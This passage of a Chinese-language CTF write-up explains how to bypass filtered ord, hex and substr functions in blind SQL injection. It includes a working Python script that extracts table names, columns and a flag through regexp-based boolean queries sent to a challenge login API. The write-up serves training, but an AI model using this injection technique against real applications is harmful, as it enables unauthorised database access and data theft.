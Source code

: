 把ord hex都过滤了

首先取出这几个函数在这里的作用，都是用于判断，从而返回1或者2，在判断，给select语句返回1或0，所以只要存在一个可以匹配字符或者字符的其他形式的函数即可

那么之前有说过mysql的正则匹配函数regexp

```python

import requests
url = "http://566426d5-6b50-4579-9728-16a5e8cef4a6.challenge.ctf.show/api/"
data = {'username':'',
        'password':123456}
flag = ''
str="qwertyuiop{}asdfghjklzxcvbnm-0123456789_ "
for i in range(1,46):
    for j in str:
        payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        #取字段名：payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        #payload = "select f1ag from ctfshow_fl0g"
        #payload="select database()"
        data['username'] = f"admin' and if(substr(({payload}), {i} , 1) regexp ('{j}'), 1, 0)=1#"
        res = requests.post(url=url, data=data)
        if "密码错误" in res.json()['msg']:
            flag+=j
    print(flag)


```

### 193|194 substr

![截图](884bf006850e477e5c908959bc58fc49.png)

过滤了substr，换其他截取字符函数即可，如mid limit等

或者

```
data = "admin' and if(({0})regexp('^{1}'), 1, 0)=1#".format(payload, flag + j)
其中^代表就是从第一位开始匹配
```
